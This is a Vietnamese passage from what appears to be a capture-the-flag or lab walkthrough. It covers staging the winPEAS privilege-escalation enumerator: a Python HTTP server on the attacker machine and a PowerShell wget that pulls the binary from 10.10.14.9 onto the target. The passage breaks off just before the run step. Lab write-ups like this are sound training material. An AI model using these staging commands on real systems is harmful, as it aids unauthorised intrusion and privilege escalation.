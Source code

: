 ![alt text](image-15.png)

Có thể tải winpeas từ https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe. Chuyển nó đến hệ thống mục tiêu bằng cách sử dụng lại máy chủ HTTP Python:

```
python3 -m http.server 80
```

Trên máy đích, thực hiện lệnh `wget` để tải chương trình từ hệ thống. File sẽ được tải xuống trong thư mục mà lệnh `wget` đã chạy. Sử dụng powershell cho tất cả các lệnh:

```
powershell wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe
```

![alt text](image-16.png)

Đã tải xuống thành công file binary. Để thực thi nó, thực hiện như sau:
